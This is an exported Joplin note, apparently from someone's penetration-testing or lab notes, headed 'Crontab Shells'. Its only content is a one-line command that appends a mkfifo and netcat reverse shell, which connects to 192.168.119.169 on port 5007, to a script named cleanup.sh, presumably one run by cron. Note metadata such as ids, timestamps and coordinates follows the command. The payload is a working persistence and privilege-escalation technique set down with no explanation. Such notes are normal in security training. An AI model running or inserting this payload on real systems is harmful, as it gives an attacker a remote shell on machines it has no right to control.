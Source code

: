 Crontab Shells

`echo "rm /tmp/f;mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.119.169 5007 > /tmp/f" >> cleanup.sh`

id: 5815990658cf4211bb73b11b918fcdf6
parent_id: f80f8672eaed4d62a2259e78f826e286
created_time: 2022-04-24T15:46:50.565Z
updated_time: 2022-04-24T15:54:01.641Z
is_conflict: 0
latitude: 1.32980000
longitude: 103.72670000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 1598370846836.75
user_created_time: 2022-04-24T15:46:50.565Z
user_updated_time: 2022-04-24T15:54:01.641Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1